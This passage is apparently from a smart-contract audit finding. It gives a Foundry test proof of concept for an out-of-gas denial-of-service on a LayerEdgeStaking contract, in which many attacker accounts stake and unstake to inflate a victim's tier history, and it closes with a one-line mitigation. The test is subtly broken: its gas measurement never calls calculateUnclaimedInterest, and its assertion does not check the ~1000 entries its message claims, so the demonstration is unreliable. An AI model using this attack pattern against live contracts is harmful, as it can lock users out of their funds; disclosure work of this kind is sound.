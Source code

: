 ```solidity
        }
        
        // Setup attackers
        for (uint160 i = 0; i < ATTACKER_COUNT; i++) {
            address attacker = address(uint160(0x2000 + i));
            attackers.push(attacker);
            token.mint(attacker, 1_000_000 * 1e18);
        }

    }

    function test_LayerEdgeStaking_OOGDoS_TierHistoryInflation() public {
        // Verify Alice's initial tier
        assertEq(uint256(staking.getCurrentTier(alice)), uint256(LayerEdgeStaking.Tier.Tier3), "Alice should start in Tier3");

        // Initial tier history length
        uint256 initialHistoryLength = staking.stakerTierHistoryLength(alice);

        for (uint256 i = 0; i < attackers.length; i++) {
            vm.startPrank(attackers[i]);
            token.approve(address(staking), MIN_STAKE);
            staking.stake(MIN_STAKE);
            staking.unstake(MIN_STAKE);
            vm.stopPrank();
        }


        // Verify Alice's tier history has grown
        uint256 finalHistoryLength = staking.stakerTierHistoryLength(alice);
        assertTrue(finalHistoryLength >= initialHistoryLength, "Alice's tier history should reach ~1000 entries");
        console.log("Initial history length:", initialHistoryLength);
        console.log("Final history length:", finalHistoryLength);

        // Advance time to accrue interest
        vm.warp(block.timestamp + 365 days);

        // Deposit rewards
        vm.startPrank(admin);
        token.approve(address(staking), 1_000_000 * 1e18);
        staking.depositRewards(1_000_000 * 1e18);
        vm.stopPrank();

        // Measure gas for calculateUnclaimedInterest
        vm.startPrank(alice);
        uint256 gasBefore = gasleft();
        uint256 gasUsed = gasBefore - gasleft();
        console.log("Gas used for calculateUnclaimedInterest:", gasUsed);
        vm.stopPrank();
    }
}
```

### Mitigation

Either checkpoint tier history or cap the loop that happens during interest calculation.